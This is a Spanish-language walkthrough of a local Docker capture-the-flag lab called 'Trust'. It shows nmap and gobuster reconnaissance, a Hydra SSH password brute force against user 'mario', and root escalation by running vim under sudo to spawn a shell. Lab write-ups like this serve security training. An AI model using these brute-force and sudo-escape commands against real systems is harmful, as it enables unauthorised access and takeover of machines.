 Desplegamos el contenedor:

```
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129163249](https://github.com/user-attachments/assets/90c23bdb-2ae9-4093-8e5a-db4f5ca2c964)

```
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![Pasted image 20250129163344](https://github.com/user-attachments/assets/cc8d490d-087f-4f88-a79c-0d539683e013)

Hacemos fuzzing:

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```
![Pasted image 20250129163713](https://github.com/user-attachments/assets/735bf5b0-3137-49bd-8df7-1eea577d0699)

Comprobamos el directorio:

![Pasted image 20250129163612](https://github.com/user-attachments/assets/9e1db405-f2ea-4378-84c2-331fd50ee6db)

Nos dice un nombre (Mario)

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![Pasted image 20250129163905](https://github.com/user-attachments/assets/eeaab2a1-c19a-411e-ba23-d399465d4887)

Nos conectamos con SSH

```
ssh mario@172.18.0.2
```

![Pasted image 20250129163946](https://github.com/user-attachments/assets/16477f3d-fb19-4a7d-8846-f50e653a75f7)

Intentamos elevar privilegios

```
sudo -l
```

![Pasted image 20250129164036](https://github.com/user-attachments/assets/31b94fbc-f85b-4e14-a1f5-13f25a594e48)

```
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250129164103](https://github.com/user-attachments/assets/b696e89f-0625-4fd9-9e07-b4f7b7910966)

o también:

```
sudo -u root /usr/bin/vim
```

![Pasted image 20250129164139](https://github.com/user-attachments/assets/3c87b144-bf66-4b67-9627-7a70fecdc133)

```
:!/bin/bash
```

![Pasted image 20250129164211](https://github.com/user-attachments/assets/0d3ef320-30bb-411c-a8f5-1510e99295d0)

![Pasted image 20250129164233](https://github.com/user-attachments/assets/10e9dea0-638c-4206-8225-eafaa57d0c31)

Otra forma de elevar:

```
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![Pasted image 20250129164322](https://github.com/user-attachments/assets/2c93b86b-0e35-4012-80b0-c8c82fecfece)

```
whoami
```

![Pasted image 20250129164345](https://github.com/user-attachments/assets/865a8fbf-e26d-44f8-8d5b-6f6194e96d6d)
